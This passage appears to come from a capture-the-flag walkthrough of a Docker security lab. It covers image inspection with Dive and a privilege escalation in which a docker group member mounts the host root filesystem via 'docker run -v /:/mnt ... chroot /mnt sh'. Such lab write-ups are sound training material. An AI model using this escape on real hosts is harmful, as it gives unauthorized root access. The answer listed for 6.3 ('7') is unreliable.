 <p>6.1. What is the "IMAGE_ID" for the "challenge" Docker image that you just downloaded?<br>
<code>2a0a63ea5d88</code></p>

<br>

<img width="1069" height="402" alt="image" src="https://github.com/user-attachments/assets/49279176-5505-4d4a-b892-0a53cc62ce93" />

<br>
<p>6.2. Using Dive, how many "Layers" are there in this image?<br>
<code>7</code></p>

<br>

<img width="1069" height="402" alt="image" src="https://github.com/user-attachments/assets/49279176-5505-4d4a-b892-0a53cc62ce93" />

<br>
<p>6.3. What user is successfully added?<br>
<code>7</code></p>

<br>

```bash
:~/TheDockerRodeo# wget https://github.com/wagoodman/dive/releases/download/v0.9.2/dive_0.9.2_linux_amd64.deb
```

<br>

```bash
:~/TheDockerRodeo# sudo apt install ./dive_0.9.2_linux_amd64.deb
```

<br>

```bash
:~/TheDockerRodeo# dive 2a0a63ea5d88
Image Source: docker://2a0a63ea5d88
Fetching image... (this can take a while for large images)
Analyzing image...
Building cache...
```

<br>

<img width="1233" height="452" alt="image" src="https://github.com/user-attachments/assets/d58387ff-3681-46ea-9001-8ca7073cebbf" />

<br>


<h2>Task 7 . Vulnerability #3: Uploading Malicious Docker Images</h2>


<br>
<p><em>Answer the questions below</em></p>

<p>7.1. Escape Successful<br>
<code>No answer needed</code></p>

```bash
:~/TheDockerRodeo# ssh danny@10.201.72.13 -p 2233
...
danny@10.201.72.13's password: 
danny@3d8fe1db6635:~$ id
uid=1000(danny) gid=1000(danny) groups=1000(danny),999(docker)
danny@3d8fe1db6635:~$ pwd
/home/danny
danny@3d8fe1db6635:~$ cd /var/run
danny@3d8fe1db6635:/var/run$ ls -la | grep sock
srw-rw---- 1 root docker    0 Aug 14 22:30 docker.sock
danny@3d8fe1db6635:/var/run$ groups
danny docker
danny@3d8fe1db6635:/var/run$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
```
